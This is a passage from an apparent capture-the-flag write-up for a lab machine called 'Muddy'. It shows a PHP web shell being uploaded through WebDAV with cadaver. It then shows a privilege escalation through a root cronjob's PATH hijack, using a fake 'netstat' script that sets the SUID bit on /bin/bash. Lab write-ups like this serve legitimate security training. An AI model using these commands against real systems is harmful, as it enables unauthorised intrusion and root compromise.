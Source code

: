 It works, so let's put a PHP web shell since we have Wordpress content on the page as well, indicating that PHP is being used.&#x20;

```
$ cadaver http://muddy.ugc/webdav
Authentication required for Restricted Content on server `muddy.ugc':
Username: administrant
Password: 
dav:/webdav/> put cmd.php
Uploading cmd.php to `/webdav/cmd.php':
Progress: [=============================>] 100.0% of 34 bytes succeeded.
```

<figure><img src="../../../.gitbook/assets/image (2304).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (1871).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> PATH Hijack

I ran a `linpeas.sh` to enumerate possible escalation vectors, and it picked up on this:

<figure><img src="../../../.gitbook/assets/image (2340).png" alt=""><figcaption></figcaption></figure>

The SYSTEM PATH variable has a writeable directory as its first directory, and the cronjob executed by `root` does not specify the full PATH for `netstat` and `service`. As such, we can just create a `netstat` script like so:

```bash
cd /dev/shm
echo '#!/bin/bash' > netstat
echo 'chmod u+s /bin/bash' >> netstat
chmod 777 netstat
```
